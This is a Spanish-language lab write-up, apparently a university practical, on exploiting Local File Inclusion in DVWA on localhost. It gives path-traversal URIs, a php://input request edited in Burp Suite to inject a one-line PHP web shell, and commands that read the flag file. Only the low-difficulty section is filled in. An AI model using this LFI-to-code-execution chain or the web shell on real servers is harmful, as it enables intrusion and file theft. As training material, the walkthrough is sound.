 # LFI

Local File Inclusion (LFI) es una vulnerabilidad que permite a un atacante leer archivos arbitrarios en el servidor. Esto puede ser utilizado para leer archivos sensibles como `config.php` o para leer el código fuente de la aplicación.

## Bajo

Sabiendo que el archivo `fi.php` existe, podemos intentar leerlo con la siguiente URI:
```
http://localhost/DVWA/vulnerabilities/fi/?page=../../hackable/flags/fi.php
```

![Path Traversal](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/primerPaso.png)
Como se puede observar en la imágen, el archivo `fi.php` es leído y mostrado en la página aunque no hemos conseguido leer las 5 citas que contiene.

Para intetar leer el archivo completo, podemos intentar ejecutar commandos en el servidor, para ello nos ayudaremos de Burp Suite, que nos permitirá modificar la petición que se envía al servidor.

Como primera prueba realizamos una petición GET a la URI para obtener información sobre el servidor:

> **Nota:** Burp Suite debe tener la opcion `Intercept is on` activada para poder modificar las peticiones.

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://input&cmd=id
```

una vez interceptada la petición, podemos modificarla para que se envíe un comando al servidor, para ello añadimmos el siguiente comando al final de la petición y a continuación pulsamos `Forward`:

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

![intercept](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/intercept.png)

como podemos observar en la imágen, el servidor nos devuelve la información del usuario que está ejecutando el servidor web.

![forward](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/forward.png)

Una vez comprobado podemos ejecutar comandos en el servidor, podemos intentar leer el archivo `fi.php` de la misma manera:

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://input&cmd=cat%20/var/www/html/DVWA/hackable/flags/fi.php
```

![challenge](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/challenge.png)

## Medio

## Alto

## Imposible